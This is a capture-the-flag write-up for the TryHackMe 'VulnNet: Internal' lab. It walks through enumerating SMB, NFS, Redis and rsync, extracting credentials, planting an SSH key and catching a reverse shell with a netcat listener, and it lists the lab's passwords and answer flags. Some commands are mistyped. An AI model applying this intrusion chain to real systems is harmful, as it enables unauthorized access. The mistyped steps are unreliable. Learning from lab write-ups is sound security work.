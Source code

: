 # TryHackMe Lab 6VulnNet: Internal

<img src="vulnNet-lab-6.png"
     alt="vulnNet-lab-6_icon"
     style="float: left; margin-right: 10px;" />
     
Task 1  VulnNet: Internal

VulnNet Entertainment is a company that learns from its mistakes. They quickly realized that they can't make a properly secured web application so they gave up on that idea. Instead, they decided to set up internal services for business purposes. As usual, you're tasked to perform a penetration test of their network and report your findings.

Difficulty: Easy/Medium
Operating System: Linux
This machine was designed to be quite the opposite of the previous machines in this series and it focuses on internal services. It's supposed to show you how you can retrieve interesting information and use it to gain system access. Report your findings by submitting the correct flags.

Note: It might take 3-5 minutes for all the services to boot.

Author: MindOverfløw
Discord: MindOverfløw#0420

What is the services flag? (services.txt)

Statred Machine

Ran command `ls` found nothing.

ran `grep`, no luck

ran nmap

`nmap -T4 -A -v 10.10.41.125`

<img src="vulnNet-lab-6-1.png"
     alt="vulnNet-lab-6-1_icon"
     style="float: left; margin-right: 10px;" />
     
smbclient can be exploited.

`smbclient \\10.10.41.125/shares`

no password needed

<img src="vulnNet-lab-6-2.png"
     alt="vulnNet-lab-6-2_icon"
     style="float: left; margin-right: 10px;" />
     
What is the services flag? (services.txt)
 
 Answer-`THM{0a09d51e488f5fa105d8d866a497440a}`
 
What is the internal flag? ("internal flag") 

NFS on port 2049 found, let's mount the NFS fileshare

`sudo mount -t nfs 10.10.41.125: tmp`

tree command not working

ran command `sudo apt install tree`

found redis.conf

ran command cat redis.conf | grep -E "pass"

<img src="vulnNet-lab-6-4.png"
     alt="vulnNet-lab-6-4_icon"
     style="float: left; margin-right: 10px;" />

this gave password to redis server.

password `B65Hx562F@ggAZ@F`

connected to redis with command 

`redis-cli -h 10.10.73.131 -a B65Hx562F@ggAZ@F`

redis not installed

ran command `sudo redis-tools`

ran command `redis-cli -h 10.10.73.131 -a B65Hx562F@ggAZ@F`

ran command `KEYS *`

from prompt `KEYS "internal flag"`

ran command `GET "internal flag"`

<img src="vulnNet-lab-6-5.png"
     alt="vulnNet-lab-6-5_icon"
     style="float: left; margin-right: 10px;" />

What is the internal flag? ("internal flag")

Answer-`THM{ff8e518addbbddb74531a724236a8221}`

ran command GET authlist, failed, a little OSINT on error.

ran command `LRANGE authlist 1 100`

<img src="vulnNet-lab-6-6.png"
     alt="vulnNet-lab-6-6_icon"
     style="float: left; margin-right: 10px;" />
     
opened new terminal to decode base64 to retrieve it's contents.

ran command `echo "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==" | base64 -d`

<img src="vulnNet-lab-6-7.png"
     alt="vulnNet-lab-6-7_icon"
     style="float: left; margin-right: 10px;" />
     
found rsync data `Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v`

ran command `rsync --list-only rsync://10.10.73.131`

listed files

ran command `sync --list-only rsync://rsync-connect@10.10.73.131/files`

Password`Hcg3HP67@TW@Bc72v`

found sys-internal child directory

ran command `rsync --list-only rsync://rsync-connect@10.10.190.83/files/sys-internal/`

password`Hcg3HP67@TW@Bc72v`

found .ssh key and copied with command `cp ~/.ssh/id_rsa.pub authorized_keys`

<img src="vulnNet-lab-6-8.png"
     alt="vulnNet-lab-6-8_icon"
     style="float: left; margin-right: 10px;" />
     
ran command `rsync rsync://rsync-connect@10.10.73.131/files/sys-internal/*.* /home/kali/tmp/`

failed

researched

<img src="vulnNet-lab-6-9.png"
     alt="vulnNet-lab-6-9_icon"
     style="float: left; margin-right: 10px;" />

connected to ssh ran `ls`

ran command `cat user.txt`

What is the user flag? (user.txt)

Answer-`THM{da7c20696831f253e0afaca8b83c07ab}`

What is the root flag? (root.txt)

ran command `ssh -L 8111:127.0.0.1:8111 sys-internal@10.10.73.131`

now at connect page
     
started netcat listener with command `nc -nlvp 444`

now with reverse shell,  ran command `at /root/root.txt`

Answer-`THM{e8996faea46df09dba5676dd271c60bd}`







 
